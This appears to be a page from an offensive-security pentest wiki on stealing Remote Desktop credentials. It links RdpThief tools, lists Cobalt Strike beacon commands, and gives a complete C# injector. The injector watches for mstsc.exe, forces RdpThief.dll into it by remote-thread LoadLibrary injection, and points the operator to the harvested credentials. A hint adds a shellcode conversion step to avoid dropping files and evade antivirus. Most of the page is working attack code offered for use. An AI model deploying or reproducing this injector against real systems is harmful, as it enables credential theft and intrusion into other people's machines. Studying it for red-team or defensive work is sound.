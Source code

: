 ```yaml
---
description: Remote Desktop Protocol
---
```


# RDP




## RdpThief

* [https://github.com/0x09AL/RdpThief](https://github.com/0x09AL/RdpThief)
* [https://github.com/passthehashbrowns/SharpRDPThief](https://github.com/passthehashbrowns/SharpRDPThief)
* [https://github.com/proxytype/RDP-THIEF](https://github.com/proxytype/RDP-THIEF)

Can be invoked with an aggressor [script](https://github.com/0x09AL/RdpThief/blob/master/RdpThief.cna) in beacon:

```
beacon> rdpthief_enable
beacon> rdpthief_dump
beacon> rdpthief_disable
```

Or with some custom code that waits for `mstsc.exe` to be run and loads the malicious library into it:

{% code title="RdpThiefInjector.cs" %}
```cs
using System;
using System.Threading;
using System.Diagnostics;
using System.Collections.Generic;
using System.Runtime.InteropServices;
using System.Text;

namespace RdpThiefInjector
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {
            string dllName = @"C:\Temp\RdpThief.dll";
            HashSet<int> PIDs = new HashSet<int>();
            Console.WriteLine("[*] Joined the hunt for mstsc.exe processes...");
            while (true)
            {
                Process[] mstscProc = Process.GetProcessesByName("mstsc");
                if (mstscProc.Length > 0)
                {
                    for (int i = 0; i < mstscProc.Length; i++)
                    {
                        int processId = mstscProc[i].Id;
                        if (!PIDs.Contains(processId))
                        {
                            Console.WriteLine($"[+] Detected non-hooked process with PID={processId}");
                            IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);
                            IntPtr dllAddress = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
                            IntPtr outSize;
                            bool res = WriteProcessMemory(hProcess, dllAddress, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
                            if (res)
                            {
                                Console.WriteLine("[+] WriteProcessMemory succeeded!");
                            }
                            else
                            {
                                Console.WriteLine("[-] WriteProcessMemory failed :(");
                            }
                            IntPtr loadLibraryAddress = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
                            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLibraryAddress, dllAddress, 0, IntPtr.Zero);
                            if (hThread != null)
                            {
                                Console.WriteLine("[+] CreateRemoteThread succeeded!");
                                Console.WriteLine($"[*] Process {processId} is now hooked, look for creds in \"{System.IO.Path.GetTempPath()}\"");
                                PIDs.Add(processId);
                            }
                            else
                            {
                                Console.WriteLine("[-] CreateRemoteThread failed :(");
                            }
                        }
                    }
                }
                Thread.Sleep(5000);
            }
        }
    }
}
```
{% endcode %}

{% hint style="info" %}
The DLL can be converted to shellcode with [ConvertToShellcode.py](https://github.com/monoxgas/sRDI/blob/master/Python/ConvertToShellcode.py) (sRDI approach) and then be [injected](/pentest/infrastructure/ad/av-edr-evasion/code-injection/process-injectors#classic-process-injection) into the target process. That would help to avoid dropping the DLL to disk.
{% endhint %}




## Abusing CredSSP / TSPKG

* [https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/](https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/)
